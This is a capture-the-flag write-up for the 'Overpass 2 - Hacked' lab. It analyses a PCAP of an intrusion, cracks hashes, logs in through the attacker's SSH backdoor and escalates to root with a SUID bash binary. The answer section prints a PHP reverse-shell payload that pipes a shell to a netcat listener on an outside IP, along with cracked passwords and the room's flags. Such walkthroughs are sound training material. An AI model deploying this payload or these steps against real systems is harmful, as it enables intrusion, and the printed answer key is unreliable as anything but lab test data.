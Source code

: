 ---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
1. What was the URL of the page they used to upload a reverse shell? -> /development/
2. What payload did the attacker use to gain access? -> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
3. What password did the attacker use to privesc? -> whenevernoteartinstant
4. How did the attacker establish persistence? -> https://github.com/NinjaJc01/ssh-backdoor
5. Using the fasttrack wordlist, how many of the system passwords were crackable? -> 4
6. What's the default hash for the backdoor? -> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
7. What's the hardcoded salt for the backdoor? -> 1c362db832f3f864c8c2fe05f2002a05
8. What was the hash that the attacker used? - go back to the PCAP for this! -> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? -> november16
10.  The attacker defaced the website. What message did they leave as a heading? -> H4ck3d by CooctusClan
11. What's the user flag? -> thm{d119b4fa8c497ddb0525f7ad200e6567}
12. What's the root flag? -> thm{d53b2684f169360bb9606c333873144d}

</details>

